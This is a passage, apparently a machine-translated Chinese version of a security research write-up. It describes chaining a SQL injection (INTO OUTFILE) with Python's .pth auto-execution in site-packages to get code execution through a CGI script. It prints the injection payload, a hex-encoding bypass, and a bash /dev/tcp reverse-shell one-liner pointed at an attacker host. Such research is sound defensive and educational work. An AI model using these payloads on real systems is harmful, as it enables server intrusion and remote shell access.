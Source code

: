 非常有用——特别是当任意文件写入遇到 Python 执行时。  
  
```
user@host:~$ echo '/tmp' > ~/.local/lib/python3.10/site-packages/foo.pth
```  
  
  
长话短说：如果您可以写入该目录并删除带有.pth扩展名的文件，Python 将会帮您完成剩下的工作。  
  
具体来说，如果该文件中的任何行.pth以有效的 Python 代码开头import[SPACE]或import[TAB]后跟有效的 Python 代码，site.py则解析器（每次 Python 进程启动时执行）会说“啊，是的，我应该运行这行代码”。  
  
如果您想深入了解这一点，我们再次强烈建议您阅读 SonarSource Research 的解释——他们比大多数人更好地涵盖了这一原语。  
  
所以，计划很简单：  
1. 将.pth包含 Python 代码的文件写入目录中site-packages，  
  
1. 扳机/cgi-bin/ml-draw.py。  
  
1. Apache 将启动/bin/python、site.py运行，并且我们的.pth文件将被拾取并执行——无需可执行位。  
  
完美的。  
  
但计划终究只是计划，我们真的能实现吗？  
  
我们一开始很天真地尝试了以下查询：  
  
```
'/**/or/**/1=1/**/UNION/**/SELECT/**/'import os;os.system(\\'ls\\')'/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/trigger.pth
```  
  
  
这个想法很简单：import os;os.system('ls')写入/var/log/lib/python3.10/site-packages/trigger.pth。  
  
但当然，一些问题很快就浮现出来：  
- 我们的有效载荷包含一个空格 - 正如我们已经确定的，它打破了调用%128s中的约束sscanf。  
  
- 更糟糕的是，总标题值现在完全超过了 128 个字符的限制。  
  
好的——如果我们将路径缩短为类似这样的路径会怎么样/var/log/lib/python3.10/site-packages/a.pth？  
  
这有一点帮助...但我们仍然被困在空间里import os。  
  
为了解决这个问题，我们可以求助于 MySQL 工具箱中的一个老工具——UNHEX()函数。  
  
```
UNHEX('41414141') --> AAAA
```  
  
  
所以我们只需对有效载荷进行十六进制编码并将其写入文件？  
  
如果生活真的那么简单就好了。  
  
假设我们尝试一个反向shell有效载荷——像这样：  
  
```
import os; os.system('bash -c "/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"')
```  
  
  
我们最终会得到这样的结果：  
  
```
UNHEX('696d706f7274206f733b206f732e73797374656d282762617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f312f3220303e2631222729')
```  
  